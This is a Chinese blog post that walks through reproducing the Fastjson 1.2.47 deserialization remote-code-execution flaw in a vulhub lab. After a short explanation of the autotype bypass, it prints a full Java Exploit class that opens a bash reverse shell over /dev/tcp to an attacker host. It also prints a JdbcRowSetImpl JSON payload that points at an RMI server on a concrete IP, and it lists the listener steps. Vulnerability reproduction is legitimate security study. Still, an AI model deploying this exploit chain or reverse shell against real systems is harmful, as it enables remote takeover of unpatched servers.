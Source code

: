 ```yaml
---
layout:     post
title:      【漏洞复现】 Fastjson=<1.2.47-反序列化漏洞复现及分析
subtitle:   反序列化漏洞
date:       2020-10-16
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现 
---
```


## 0x00 序列化、反序列化、fastjson
![-c853](/img/16027822342527.jpg)
Java序列化与反序列化是让Java对象脱离Java运行环境的一种手段，可以有效的实现多平台之间的通信、对象持久化存储。主要应用在以下场景：
- HTTP：多平台之间的通信、管理等。
- RMI：是Java的一组用户开发分布式应用程序的API，实现了不同操作系统之间程序的方法调用。RMI的传输100%基于Java反序列化，默认端口是1099。
- JMX：JMX是一套标准的代理和服务，用户可以在任何Java应用程序中使用这些代理和服务实现管理。

中间件软件Weblogic的管理页面就是机遇JMX开发的，而Jboss的整个系统都基于JMX框架。

fastjson是由阿里开发的一种json的解析器和生成器，用于Java对象和json的转换，对象即类的实例化。
反序列化：将json转换为Java对象

首先，Fastjson提供了autotype功能，允许用户在反序列化数据中通过“@type”指定反序列化的类型，其次，Fastjson自定义的反序列化机制时会调用指定类中的setter方法及部分getter方法，那么当组件开启了autotype功能并且反序列化不可信数据时，攻击者可以构造数据，使目标应用的代码执行流程进入特定类的特定setter或者getter方法中，若指定类的指定方法中有可被恶意利用的逻辑（也就是通常所指的“Gadget”），则会造成一些严重的安全问题。并且在Fastjson 1.2.47及以下版本中，利用其缓存机制可实现对未开启autotype功能的绕过。

需要搭建一个简单的Web应用来接受用户POST过来的JSON并且进行反序列化。漏洞利用如下：
![-c](/img/16027822467978.jpg)
## 0x01 复现环境
**漏洞环境：vulhub/fastjson1.2.47-rce**
## 0x02 漏洞复现
**编译生成Exploit.class**
```java
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
public class Exploit{
  public Exploit() throws Exception {
      Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/攻击机IP/PORT;cat <&5 | while read line; do $line 2>&5 >&5;     done"});
      InputStream is = p.getInputStream();
      BufferedReader reader = new BufferedReader(new InputStreamReader(is));
      String line;
      while((line = reader.readLine()) != null) {
        System.out.println(line);
        }
      p.waitFor();
      is.close();
      reader.close();
      p.destroy();
      }
      public static void main(String[] args) throws Exception {
      }
}
```
**在class文件目录下使用python3 httpserver 开启一个web服务**
![-c1029](/img/16027822730496.jpg)
**使用marshalsec开启rmi服务监听**
![-c1791](/img/16027822831600.jpg)
**攻击机监听反弹shell端口**
![-c1110](/img/16027822966220.jpg)
**发送的json payload数据包内容**

```shell
{
"names":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "x1001":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://124.70.45.9:8088/Exploit",
        "autoCommit":true
    }
}
```
![-c1204](/img/16027823122402.jpg)
DONE！
![-c](/img/16027823234409.jpg)
